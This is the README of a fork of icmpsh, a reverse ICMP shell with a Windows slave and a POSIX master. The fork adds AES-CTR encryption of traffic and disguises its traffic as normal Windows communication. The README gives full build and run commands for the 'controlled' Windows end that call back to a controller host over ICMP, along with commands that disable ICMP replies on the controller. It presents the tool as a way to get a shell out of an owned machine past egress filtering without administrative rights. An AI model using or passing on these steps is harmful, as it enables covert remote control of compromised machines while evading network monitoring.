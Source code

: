 ## 原项目
    https://github.com/bdamele/icmpsh


## 改进点
```
1. 通信进行了aes_ctr加密(包括传输内容和下发指令)
2. 伪装了windows下的正常通信
```


## 编译与运行
```
windwos下被控端
    gcc icmpsh-s.c aes.c aes.h lib.h  -O1 -static  -o icmpsh-s.exe
    icmpsh-s.exe -t 192.168.1.111 -d 2000 -s 1024

linux控制端
    gcc icmpsh-m.c lib.h aes.h aes.c -o icmpsh-m
    sysctl -w net.ipv4.icmp_echo_ignore_all=1    关闭linux系统下的icmp自动应答功能(注意:这个是临时生效)
    echo net.ipv4.icmp_echo_ignore_all=1 >> /etc/sysctl.conf && sysctl -p (这个永久生效)
    sudo ./icmpsh-m
```

## Background

Sometimes, network administrators make the penetration tester's life harder. Some of them do use firewalls for what they are meant to, surprisingly!
Allowing traffic only onto known machines, ports and services (ingress filtering) and setting strong egress access control lists is one of these cases. In such scenarios when you have owned a machine part of the internal network or the DMZ (e.g. in a Citrix breakout engagement or similar), it is not always trivial to get a reverse shell over TCP, not to consider a bind shell.

However, what about UDP (commonly a DNS tunnel) or ICMP as the channel to get a reverse shell? ICMP is the focus on this tool.

## Description

icmpsh is a simple reverse ICMP shell with a win32 slave and a POSIX compatible master in C, Perl or Python. The main advantage over the other similar open source tools is that it does not require administrative privileges to run onto the target machine.

The tool is clean, easy and portable. The **slave (client) runs on the target Windows machine**, it is written in C and works on Windows only whereas the **master (server) can run on any platform on the attacker machine** as it has been implemented in C and Perl by [Nico Leidecker](http://www.leidecker.info/) and I have ported it to Python too, hence this GitHub fork.

## Features

* Open source software - primarily coded by Nico, forked by me.
* Client/server architecture.
* The master is portable across any platform that can run either C, Perl or Python code.
* The target system has to be Windows because the slave runs on that platform only for now.
* The user running the slave on the target system does not require administrative privileges.

## Usage

### Running the master

The master is straight forward to use. There are no extra libraries required for the C and Python versions. The Perl master however has the following dependencies:

* IO::Socket
* NetPacket::IP
* NetPacket::ICMP

When running the master, don't forget to disable ICMP replies by the OS. For example:
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1
```

If you miss doing that, you will receive information from the slave, but the slave is unlikely to receive commands send from the master.

### Running the slave

The slave comes with a few command line options as outlined below:

```
-t host            host ip address to send ping requests to. This option is mandatory!

-r                 send a single test icmp request containing the string "Test1234" and then quit. 
                   This is for testing the connection.

-d milliseconds    delay between requests in milliseconds 

-o milliseconds    timeout of responses in milliseconds. If a response has not received in time, 
                   the slave will increase a counter of blanks. If that counter reaches a limit, the slave will quit.
                   The counter is set back to 0 if a response was received.

-b num             limit of blanks (unanswered icmp requests before quitting

-s bytes           maximal data buffer size in bytes
```

In order to improve the speed, lower the delay (*-d*) between requests or increase the size (-s) of the data buffer.

## License

This source code is free software; you can redistribute it and/or modify it under the terms of the GNU Lesser General Public License as published by the Free Software Foundation; either version 2.1 of the License, or (at your option) any later version.

This library is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the GNU Lesser General Public License for more details.

You should have received a copy of the GNU Lesser General Public License along with this library; if not, write to the Free Software Foundation, Inc., 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA

